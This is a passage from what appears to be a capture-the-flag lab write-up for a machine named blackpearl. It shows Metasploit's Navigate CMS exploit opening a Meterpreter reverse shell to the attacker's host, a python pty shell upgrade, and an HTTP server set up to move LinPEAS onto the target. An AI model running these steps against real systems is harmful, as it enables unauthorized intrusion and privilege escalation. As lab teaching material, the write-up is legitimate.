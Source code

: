 ```bash
Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic

msf6 exploit(multi/http/navigate_cms_rce) > run

[*] Started reverse TCP handler on 10.0.2.4:4444 
[+] Login bypass successful
[+] Upload successful
[*] Triggering payload...
[*] Sending stage (39927 bytes) to 10.0.2.154
[*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.154:56942) at 2024-02-05 06:53:07 -0500

meterpreter > shell
Process 757 created.
Channel 1 created.
whoami
www-data
```

Looks like the exploit worked. But we got the shell as a normal user, which means it’s time for some privilege escalation.

But first, it’s a good thing to stabilize our shell by generating a tty shell. We can learn how to do that [here](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell). Copy the first line and paste it into the shell.

NOTE: It’s advised to change  `/bin/sh` to `/bin/bash/`.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'   
www-data@blackpearl:~/blackpearl.tcm/navigate$
```

That’s better.

Now we can go through the normal process of finding privilege escalation capabilities (using `sudo -l` , `history` etc.) and of course the trusty `LinPEAS`. Time to move it over to the target machine.

On Kali:

```bash
┌──(kali㉿kali)-[~]
└─$ cd transfer 
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/transfer]
└─$ ls
linpeas.sh  pspy64  winpeas.exe  Wise.exe
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/transfer]
└─$ python3 -m http.server 80                                   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
